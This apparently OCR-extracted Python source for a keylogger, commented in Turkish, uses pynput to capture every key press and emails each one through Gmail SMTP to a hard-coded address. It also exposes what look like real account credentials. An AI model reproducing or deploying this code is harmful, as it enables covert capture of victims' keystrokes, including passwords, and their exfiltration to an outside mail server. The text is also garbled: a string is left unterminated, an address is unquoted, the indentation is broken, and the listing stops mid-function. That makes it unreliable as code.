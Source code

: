 import smtplib
from email.mime.text import MIMEText
from pynput.keyboard import Key, Listener

def on_press(key):
    try:
        server = smtplib.SMTP('smtp.gmail.com', 587)
        server.starttls()
        
        # E-posta adresi ve şifre
        email_address = 't44653246@gmail.com'
        password = 'mustafa052010
        
        # Giriş yapma
        server.login(email_address, password)
        
        # E-posta oluşturma
        msg = MIMEText('Bir tuşa basıldı: {}'.format(key))
        msg['Subject'] = 1
        msg['From'] = mustafabahceli12@gmail.com
        msg['To'] = 'mustafabahceli12@gmail.com'
        
        # E-posta gönderme
    server.sendmail(email_address, 'mustafabahceli12@gmail.com', msg.as_string())
        
        # Bağlantıyı kapatma
        server.quit()
        
    except Exception as e:
        print("E-posta gönderme hatası:", e)

def on_release(key):
